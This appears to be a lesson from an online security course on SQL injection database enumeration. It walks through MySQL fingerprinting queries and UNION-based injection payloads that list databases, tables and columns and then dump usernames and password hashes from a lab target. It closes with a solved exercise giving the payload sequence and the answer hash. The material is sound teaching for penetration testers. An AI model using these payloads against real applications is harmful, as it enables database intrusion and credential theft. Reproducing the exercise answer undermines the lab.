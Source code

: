 # Database Enumeration

In the previous sections, we learned about different SQL queries in `MySQL` and SQL injections and how to use them. This section will put all of that to use and gather data from the database using SQL queries within SQL injections.

***

### MySQL Fingerprinting

Before enumerating the database, we usually need to identify the type of DBMS we are dealing with. This is because each DBMS has different queries, and knowing what it is will help us know what queries to use.

As an initial guess, if the webserver we see in HTTP responses is `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL`. The same also applies to Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server. So, there are different queries we can test to fingerprint the type of database we are dealing with.

As we cover `MySQL` in this module, let us fingerprint `MySQL` databases. The following queries and their output will tell us that we are dealing with `MySQL`:

| Payload            | When to Use                      | Expected Output                                     | Wrong Output                                              |
| ------------------ | -------------------------------- | --------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | When we have full query output   | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)`  | When we only have numeric output | `1`                                                 | Error with other DBMS                                     |
| `SELECT SLEEP(5)`  | Blind/No Output                  | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS                   |

As we saw in the example from the previous section, when we tried `@@version`, it gave us:

![](https://academy.hackthebox.com/storage/modules/33/db\_version\_1.jpg)

The output `10.3.22-MariaDB-1ubuntu1` means that we are dealing with a `MariaDB` DBMS similar to MySQL. Since we have direct query output, we will not have to test the other payloads. Instead, we can test them and see what we get.

***

### INFORMATION\_SCHEMA Database

To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries. To do so, we need the following information:

* List of databases
* List of tables within each database
* List of columns within each table

With the above information, we can form our `SELECT` statement to dump data from any column in any table within any database inside the DBMS. This is where we can utilize the `INFORMATION_SCHEMA` Database.

The [INFORMATION\_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server. This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with a `SELECT` statement. If we only specify a table's name for a `SELECT` statement, it will look for tables within the same database.

So, to reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:

Code: sql

```sql
SELECT * FROM my_database.users;
```

Similarly, we can look at tables present in the `INFORMATION_SCHEMA` Database.

***

### SCHEMATA

To start our enumeration, we should find what databases are available on the DBMS. The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server. It is used to obtain database names so we can then query them. The `SCHEMA_NAME` column contains all the database names currently present.

Let us first test this on a local database to see how the query is used:

Database Enumeration

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

We see the `ilfreight` and `dev` databases.

Note: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

Now, let's do the same using a `UNION` SQL injection, with the following payload:

Code: sql

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![](https://academy.hackthebox.com/storage/modules/33/ports\_dbs.png)

Once again, we see two databases, `ilfreight` and `dev`, apart from the default ones. Let us find out which database the web application is running to retrieve ports data from. We can find the current database with the `SELECT database()` query. We can do this similarly to how we found the DBMS version in the previous section:

Code: sql

```sql
cn' UNION select 1,database(),2,3-- -
```

![](https://academy.hackthebox.com/storage/modules/33/db\_name.jpg)

We see that the database name is `ilfreight`. However, the other database (`dev`) looks interesting. So, let us try to retrieve the tables from it.

***

### TABLES

Before we dump data from the `dev` database, we need to get a list of the tables to query them with a `SELECT` statement. To find all tables within a database, we can use the `TABLES` table in the `INFORMATION_SCHEMA` Database.

The [TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) table contains information about all tables throughout the database. This table contains multiple columns, but we are interested in the `TABLE_SCHEMA` and `TABLE_NAME` columns. The `TABLE_NAME` column stores table names, while the `TABLE_SCHEMA` column points to the database each table belongs to. This can be done similarly to how we found the database names. For example, we can use the following payload to find the tables within the `dev` database:

Code: sql

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Note how we replaced the numbers '2' and '3' with 'TABLE\_NAME' and 'TABLE\_SCHEMA', to get the output of both columns in the same query.

![](https://academy.hackthebox.com/storage/modules/33/ports\_tables\_1.jpg)

Note: we added a (where table\_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.

We see four tables in the dev database, namely `credentials`, `framework`, `pages`, and `posts`. For example, the `credentials` table could contain sensitive information to look into it.

***

### COLUMNS

To dump the data of the `credentials` table, we first need to find the column names in the table, which can be found in the `COLUMNS` table in the `INFORMATION_SCHEMA` database. The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table contains information about all columns present in all the databases. This helps us find the column names to query a table for. The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns can be used to achieve this. As we did before, let us try this payload to find the column names in the `credentials` table:

Code: sql

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

![](https://academy.hackthebox.com/storage/modules/33/ports\_columns\_1.jpg)

The table has two columns named `username` and `password`. We can use this information and dump data from the table.

***

### Data

Now that we have all the information, we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database. We can place `username` and `password` in place of columns 2 and 3:

Code: sql

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

Remember: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.

![](https://academy.hackthebox.com/storage/modules/33/ports\_credentials\_1.png)

We were able to get all the entries in the `credentials` table, which contains sensitive information such as password hashes and an API key.

**Questions**

What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
cn' UNION select 1,database(),2,3-- -
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
9da2c9bcdf39d8610954e0e11ea8f45f
```
